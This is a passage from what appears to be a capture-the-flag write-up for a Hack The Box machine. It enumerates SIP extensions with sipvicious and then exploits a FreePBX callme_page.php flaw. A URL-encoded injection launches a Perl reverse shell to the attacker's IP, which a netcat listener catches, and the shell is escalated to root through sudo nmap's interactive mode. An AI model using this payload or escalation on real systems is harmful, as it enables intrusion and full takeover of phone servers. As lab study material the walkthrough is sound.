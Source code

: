 seem like the extention is not working. After some googleing, I found out that we need to change then extention to the one that is working. **IPPSEC** was talking about a tool cal [Sipvicious](https://github.com/EnableSecurity/sipvicious). that can be use to find the enable/avalible extension. He also mention that you could visite `/panel/` which we found using `gobuster` but my web browser is missing some flash extention so I skiped that part.

we can use `svwar.py - SIPvicious extension line scanner`
```console
[10.10.14.43]-kali@kali:/opt/sipvicious$ sipvicious_svwar -m INVITE -e1-1000 10.10.10.7
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+
```
now let modify our payload, change to `callmenum=233`
```
```
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.43%3a6969%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```
open nc listen and visit the ablow site
```console
10.10.14.43]-kali@kali:~/HTB/popcorn$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.10.7] 55522
whoami
asterisk
```
so back to our exploit it told us that `asterisk` is allow to run nmap as root with nopasswd. We will use nmap interactive mode to spawn shell!
```console
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
whoami
root
```